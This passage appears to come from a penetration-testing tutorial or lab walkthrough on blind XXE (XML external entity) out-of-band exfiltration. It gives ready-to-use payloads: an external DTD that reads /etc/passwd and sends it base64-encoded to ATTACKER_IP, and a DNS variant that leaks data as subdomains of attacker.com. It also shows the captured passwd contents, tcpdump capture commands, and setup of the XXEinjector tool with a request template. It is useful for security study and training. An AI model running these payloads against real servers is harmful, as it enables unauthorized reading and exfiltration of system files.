 **Step 5: Create External DTD**
```bash
# Create xxe.dtd with exfiltration entities
cat > xxe.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ATTACKER_IP:8000/?content=%file;'>">
EOF
```

**Result:** Server receives HTTP request with base64-encoded file content
```bash
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

### Alternative OOB Methods

#### DNS OOB Exfiltration
**Advanced Technique:** Use DNS subdomain queries to exfiltrate data
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://%file;.attacker.com/'>">
```

**Capture with tcpdump:**
```bash
# Monitor DNS queries for subdomain data
tcpdump -i any -n port 53 | grep attacker.com

# Extract and decode base64 subdomain
```

### Automated OOB Exfiltration

#### XXEinjector Tool
**Installation:**
```bash
git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector
```

#### Tool Usage

**Step 1: Prepare HTTP Request Template**
```http
POST /blind/submitDetails.php HTTP/1.1
Host: target.com
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
